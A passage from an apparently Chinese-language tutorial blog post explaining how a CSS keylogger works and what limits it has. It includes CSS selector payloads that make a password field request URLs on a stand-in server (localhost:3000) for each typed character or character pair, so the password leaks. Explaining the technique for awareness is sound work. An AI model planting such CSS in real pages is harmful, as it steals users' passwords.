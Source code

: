 ``` css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

神奇吧！

如果你不熟悉 CSS selector，這邊幫你複習一下。上面那段意思就是說如果 type 是 password 的 input，value 以 a 結尾的話，背景圖就載入`http://localhost:3000/a` 。

現在我們可以把這串 CSS 改一下，新增大小寫英文字母、數字甚至是特殊符號，接著會發生什麼事呢？

如果我輸入 abc123，瀏覽器就會發送 Request 到：

1. http://localhost:3000/a
2. http://localhost:3000/b
3. http://localhost:3000/c
4. http://localhost:3000/1
5. http://localhost:3000/2
6. http://localhost:3000/3

就這樣，你的密碼就完全被攻擊者給掌握了。

這就是 CSS keylogger 的原理，利用 CSS Selector 搭配載入不同的網址，就能夠把密碼的每一個字元發送到 Server 去。

看起來很可怕對吧，別怕，其實沒那麼容易。

# CSS keylogger 的限制

## 不能保證順序

雖然你輸入的時候是按照順序輸入的，但 Request 抵達後端的時候並不能保證順序，所以有時候順序會亂掉。例如說 abc123 變成 bca213 之類的。

但如果我們把 CSS Selector 改一下的話，其實就能解決這個問題：

``` css
input[value^="a"] {
  background-image: url("http://localhost:3000/a_");
}
  
input[value*="aa"] {
  background-image: url("http://localhost:3000/aa");
}
  
input[value*="ab"] {
  background-image: url("http://localhost:3000/ab");
}
```

如果開頭是 a，我們就送出`a_`，接著針對 26 個字母跟數字的排列組合每兩個字元送出一個 request，例如說：abc123，就會是：

1. a_
2. ab
3. bc
4. c1
5. 12
6. 23
